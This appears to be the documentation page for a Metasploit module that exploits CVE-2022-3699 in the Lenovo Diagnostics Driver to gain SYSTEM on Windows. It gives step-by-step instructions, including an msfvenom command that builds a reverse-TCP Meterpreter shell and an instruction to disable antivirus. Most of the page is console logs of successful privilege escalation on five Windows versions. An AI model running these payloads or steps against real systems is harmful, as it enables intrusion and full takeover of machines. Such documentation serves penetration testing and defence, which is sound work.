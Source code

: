 ## Vulnerable Application

### Description
Incorrect access control for the Lenovo Diagnostics Driver allows a low-privileged user the ability to issue device
IOCTLs to perform arbitrary physical/virtual memory read/write.

### Setup

A copy of the vulnerable Lenovo Diagnostics Driver can be downloaded from the github repo that hosts the original PoC
that this module uses: https://github[.]com/alfarom256/CVE-2022-3699/raw/main/LenovoDiagnosticsDriver.sys

To create a service that runs the vulnerable Lenovo driver run the following command:
`c:\Windows\System32> sc.exe create LenovoDiagnosticsDriver type= kernel start= auto binPath= "c:\Windows\System32\drivers\LenovoDiagnosticsDriver.sys" DisplayName=LenovoDiagnosticsDriver`

## Verification Steps

1. Create a shell for an initial foothold:
   `./msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.123.1 LPORT=4444 -f exe > shell.exe`
1. Disable Real-time Virus Protection on the Windows 11 test target.
1. Drag shell.exe onto the Windows 11 test target
1. Start msfconsole
1. Do: `use multi/handler`
1. set LHOST and LPORT
1. Launch `shell.exe` on the test target and receive a shell
1. Do `use windows/local/cve_2022_3699_lenovo_diagnostics_driver`
1. Set the `LHOST`, `LPORT`, and `SESSION` options
1. Run the module
1. Receive a Meterpreter session as the `NT AUTHORITY\SYSTEM` user.

## Scenarios
All of the following scenarios have a vulnerable version of LenovoDiagnosticsDriver.sys in use.
### Windows 11 21H2 (Build 22000)
```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > run LHOST=192.168.123.1 LPORT=4444 payload=windows/x64/meterpreter/reverse_tcp

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Sending stage (200774 bytes) to 192.168.123.212
[*] Meterpreter session 17 opened (192.168.123.1:4444 -> 192.168.123.212:49692) at 2022-12-12 12:34:15 -0500

meterpreter > bg
[*] Backgrounding session 17...
msf6 exploit(multi/handler) > use windows/local/cve_2022_3699_lenovo_diagnostics_driver
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2022_3699_lenovo_diagnostics_driver) > run session=17 LHOST=192.168.123.1 LPORT=4445

[*] Started reverse TCP handler on 192.168.123.1:4445
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Launching msiexec to host the DLL...
[+] Process 4292 launched.
[*] Reflectively injecting the DLL into 4292...
[*] Sending stage (200774 bytes) to 192.168.123.212
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Meterpreter session 18 opened (192.168.123.1:4445 -> 192.168.123.212:49696) at 2022-12-12 12:41:32 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : MSFTESTING
OS              : Windows 10 (10.0 Build 22000).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```

### Windows 10 22H2 (Build 19045)
```
msf6 exploit(multi/handler) > run payload=windows/x64/meterpreter/reverse_tcp lhost=172.16.199.1

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Sending stage (200774 bytes) to 172.16.199.133
[*] Meterpreter session 8 opened (172.16.199.1:4444 -> 172.16.199.133:50093) at 2023-01-18 01:20:16 -0500

meterpreter > bg
[*] Backgrounding session 8...
msf6 exploit(multi/handler) > use windows/local/cve_2022_3699_lenovo_diagnostics_driver
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2022_3699_lenovo_diagnostics_driver) > run session=8 LHOST=172.16.199.1 LPORT=4445

[*] Started reverse TCP handler on 172.16.199.1:4445
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Launching netsh to host the DLL...
[+] Process 432 launched.
[*] Reflectively injecting the DLL into 432...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200774 bytes) to 172.16.199.133
[*] Meterpreter session 9 opened (172.16.199.1:4445 -> 172.16.199.133:50095) at 2023-01-18 01:20:33 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-8ATHH6O
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```

### Windows 10 1809 (Build 17763)
```
msf6 exploit(multi/handler) > run payload=windows/x64/meterpreter/reverse_tcp LHOST=172.16.199.1 LPORT=4444

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Sending stage (200774 bytes) to 172.16.199.134
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.134:51415) at 2023-01-18 11:39:11 -0500

meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use windows/local/cve_2022_3699_lenovo_diagnostics_driver
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2022_3699_lenovo_diagnostics_driver) > run session=1 lport=4445

[*] Started reverse TCP handler on 172.16.199.1:4445
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Launching netsh to host the DLL...
[+] Process 3004 launched.
[*] Reflectively injecting the DLL into 3004...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200774 bytes) to 172.16.199.134
[*] Meterpreter session 4 opened (172.16.199.1:4445 -> 172.16.199.134:49708) at 2023-01-18 11:50:37 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-FONAECR
OS              : Windows 10 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```

### Windows Server 2022 (Build 20348)
```
msf6 exploit(windows/local/cve_2022_3699_lenovo_diagnostics_driver) > run session=7 lport=4445 lhost=172.16.199.1

[*] Started reverse TCP handler on 172.16.199.1:4445
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Launching netsh to host the DLL...
[+] Process 7028 launched.
[*] Reflectively injecting the DLL into 7028...
[*] Sending stage (200774 bytes) to 172.16.199.132
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Meterpreter session 8 opened (172.16.199.1:4445 -> 172.16.199.132:50962) at 2023-01-18 23:49:51 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-2EEL7BRDUD8
OS              : Windows 2016+ (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```

### Windows Server 2019 (Build 17763)
```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > run payload=windows/x64/meterpreter/reverse_tcp lhost=172.16.199.1

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Sending stage (200774 bytes) to 172.16.199.235
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.235:49729) at 2023-01-18 22:08:05 -0500

meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use windows/local/cve_2022_3699_lenovo_diagnostics_driver
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2022_3699_lenovo_diagnostics_driver) > run session=1 lport=4445 lhost=172.16.199.1
[*] Reloading module...

[*] Started reverse TCP handler on 172.16.199.1:4445
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.

[*] Launching netsh to host the DLL...
[+] Process 64 launched.
[*] Reflectively injecting the DLL into 64...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200774 bytes) to 172.16.199.235
[*] Meterpreter session 2 opened (172.16.199.1:4445 -> 172.16.199.235:56717) at 2023-01-18 22:15:46 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-FDV8QFUMFP7
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : EXAMPLE
Logged On Users : 8
Meterpreter     : x64/windows
```
